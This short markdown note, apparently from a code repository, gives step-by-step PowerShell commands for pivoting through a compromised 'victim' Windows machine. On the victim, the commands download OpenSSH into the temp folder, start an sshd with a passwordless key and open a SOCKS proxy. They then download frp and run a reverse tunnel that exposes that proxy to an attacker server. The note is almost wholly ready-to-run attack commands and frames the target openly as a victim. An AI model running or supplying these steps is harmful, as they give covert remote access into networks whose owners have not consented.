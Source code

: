 # pivoting a computer not bindable

## attacker_server
1) setting frp
    - download https://github.com/fatedier/frp/releases
    - ./frps -c ./frps.ini 

## victim

1) getting socks server

```powershell
cd $env:TEMP
rm -r -fo .\OpenSSH-Win32\
curl "https://github.com/PowerShell/Win32-OpenSSH/releases/download/V8.6.0.0p1-Beta/OpenSSH-Win32.zip" -o openssh.zip
Expand-Archive -LiteralPath openssh.zip -DestinationPath .
cd .\OpenSSH-Win32\
.\ssh-keygen -f id_rsa -N """"
Clear-Content .\sshd_config_default
$curLocation = Get-Location
Add-Content .\sshd_config_default  "AuthorizedKeysFile $curLocation\id_rsa.pub"
.\sshd.exe -f .\sshd_config_default -h id_rsa -p 2222
```

```powershell
$socksPort = 5555
cd $env:TEMP
cd .\OpenSSH-Win32\
.\ssh.exe -D $socksPort -N localhost -p 2222 -i .\id_rsa -o UserKnownHostsFile=a -o StrictHostKeyChecking=no
```


2) setting frp

```powershell
$socksPort = 5555
$attackerServerIp = "1.2.3.4"
$attackerExposePort = 9150
cd $env:TEMP
curl "https://github.com/fatedier/frp/releases/download/v0.37.1/frp_0.37.1_windows_amd64.zip" -o frp.zip
Expand-Archive -LiteralPath frp.zip -DestinationPath .
cd frp_0.37.1_windows_amd64
Clear-Content frpc.ini
Add-Content frpc.ini "[common]"
Add-Content frpc.ini "server_addr = $attackerServerIp"
Add-Content frpc.ini "server_port = 7000"
Add-Content frpc.ini "[ssh_socks]"
Add-Content frpc.ini "type = tcp"
Add-Content frpc.ini "local_ip = 127.0.0.1"
Add-Content frpc.ini "local_port = $socksPort"
Add-Content frpc.ini "remote_port = $attackerExposePort"
.\frpc -c .\frpc.ini
```

## (opcional) attacker_laptop

1) ssh -L localSocksPort:attackerServerIp:attackerExposePort user@attackerServerIp
